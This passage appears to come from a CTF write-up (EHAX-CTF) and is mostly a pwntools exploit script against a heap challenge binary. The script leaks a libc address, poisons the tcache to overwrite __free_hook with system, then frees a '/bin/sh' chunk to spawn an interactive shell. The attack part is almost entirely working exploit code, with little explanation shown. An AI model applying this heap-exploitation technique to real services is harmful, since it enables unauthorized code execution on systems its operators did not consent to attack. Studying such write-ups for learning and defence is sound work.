 ```cs
    p.sendlineafter(b'> ',f'{idx}'.encode())

def edit(idx,data):
    p.sendlineafter(b'> ',b'3')
    p.sendlineafter(b'> ',f'{idx}'.encode())
    p.sendlineafter(b'> ',data)

def view(idx):
    p.sendlineafter(b'> ',b'4')
    p.sendlineafter(b'> ',f'{idx}'.encode())

malloc(0,0x70,b'/bin/sh\x00')
malloc(1,0x70,b'kuvee')
malloc(2,0x70,b'kuvee')
malloc(3,0x500,b'kuvee')
malloc(4,0x10,b'kuvee')

free(3)
view(3)

libc.address = u64(p.recv(6).ljust(8,b'\x00')) - 0x1ecbe0
log.info(f'leak libc: {hex(libc.address)}')

input()
free(1)
free(2)
edit(2,p64(libc.sym.__free_hook))
malloc(5,0x70,b'kuvee')
malloc(6,0x70,p64(libc.sym.system))
free(0)


p.interactive()
```

![here](/assets/images/EHAX-CTF/4.png)

